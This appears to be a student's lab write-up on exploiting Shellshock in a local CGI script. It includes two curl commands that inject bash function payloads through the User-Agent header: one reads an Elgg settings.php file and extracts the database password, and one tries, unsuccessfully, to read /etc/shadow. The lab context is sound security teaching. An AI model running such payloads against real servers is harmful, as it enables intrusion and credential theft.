 ## Task04
### 4.1 Launch an attack 
We use the command below to launch an attack, in which I also use the curl with options `-s` to make response shorter and `-A` specified user agent.
```shell
$ curl http://localhost/cgi-bin/myprog.cgi -s -A \
"() { echo hello; }; echo Content_type: text/plain; echo;\
/bin/cat /var/www/CSRF/Elgg/elgg-config/settings.php" \
| grep -s 'dbpass = ' 
```
Our code tries to steal the database password stored inside the `setting.php` file. `echo Content_type: text/plain;` is also essential, which defines a field in the head of the response. Without such a field, PHP will return an error.  Image below is the output of the command, which shows us the password of the database. 
![](/assets/images/16326883206491/16326999112287.jpg)

### 4.2 Why not /etc/shadow?
I do not think it is possible to remotely access the script's `/etc/shadow` file because that file is only readable with the root privilege. We used the `ll` command to verify that and tried to access that file by `cat`. The image below shows what we got. 
![](/assets/images/16326883206491/16327003348200.jpg)

We still used command below to launch an attack, but the `curl` did not response any useful information this time. 
```shell
curl http://localhost/cgi-bin/myprog.cgi -v -A "() { echo hello; }; echo Content_type: text/plain;echo; /bin/cat /etc/shadow" -v
```
We also tried to use option `-v` (verbose) to get more information. The image below is the output, in which the content-length is zero. 
![](/assets/images/16326883206491/16327005370706.jpg)
